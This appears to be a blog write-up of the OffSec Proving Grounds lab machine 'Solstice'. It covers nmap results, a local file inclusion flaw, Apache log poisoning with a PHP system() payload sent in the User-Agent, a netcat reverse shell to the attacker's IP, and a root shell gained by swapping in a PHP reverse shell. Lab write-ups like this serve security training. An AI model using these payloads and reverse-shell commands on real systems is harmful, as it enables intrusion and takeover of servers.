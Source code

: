 ```yaml
---
title: "Proving grounds Play: Solstice"
layout: post
date: 2023-09-13 05:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT      STATE SERVICE    VERSION
21/tcp    open  ftp        pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.180.72:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5ba737fd556cf8ea03f510bc94320718 (RSA)
|   256 abda6a6f973fb2703e6c2b4b0cb7f64c (ECDSA)
|_  256 ae29d4e346a1b15227838f8fb0c436d1 (ED25519)
25/tcp    open  smtp       Exim smtpd
| smtp-commands: solstice Hello nmap.scanme.org [192.168.45.197], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp    open  http       Apache httpd 2.4.38 ((Debian))
2121/tcp  open  ftp        pyftpdlib 1.5.6
3128/tcp  open  http-proxy Squid http proxy 4.6
8593/tcp  open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)
54787/tcp open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)

62524/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web PORT : 8593

![img](/assets/images/CTF/Proving_Grounds/Solstice/web.png)

## LFI Vulnerability

Clicking on the `Book List` button shows the `index.php?book` location.   

![img](/assets/images/CTF/Proving_Grounds/Solstice/lfi.png)

## Apache Log Poisoning attack

```text
http://192.168.180.72:8593/index.php?book=../../../../../../var/log/apache2/access.log
```

The LFI vulnerability can be exploited through the log poisoning attack. Send a php code execution payload to the server to store the payload in the log file.

```sh
curl http://192.168.180.72 -A "<?php system(\$_GET['cmd']); ?>"
```

Execute arbitrary command in the URL to verify the code execution.

```sh
http://192.168.180.72:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=whoami
```

Execute the below netcat command to obtain reverse shell. Ensure netcat listener is running on the desired PORT for reverse connection.

```sh
curl -s "http://192.168.180.72:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=nc%20192.168.45.197%204444%20-e%20%2Fbin%2Fbash%20"
```

![img](/assets/images/CTF/Proving_Grounds/Solstice/shell.png)

**Initial Foothold obtained**

## Privilege Escalation

### Process Enumeration

Check the running process with root permissions.

```sh
ps aux | grep root
```

![img](/assets/images/CTF/Proving_Grounds/Solstice/ps.png)

PHP is running as root, in order to get a shell as `root` the index.php file located in the `/var/tmp/sv/` folder has to be replaced with a php reverse shell.

Download the pentest monkey php reverse shell into the folder and rename it as `index.php`. Once the file is downloaded and renamed then run internal curl command to execute the php file to obtain the reverse shell.

![img](/assets/images/CTF/Proving_Grounds/Solstice/root.png)

**Root obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).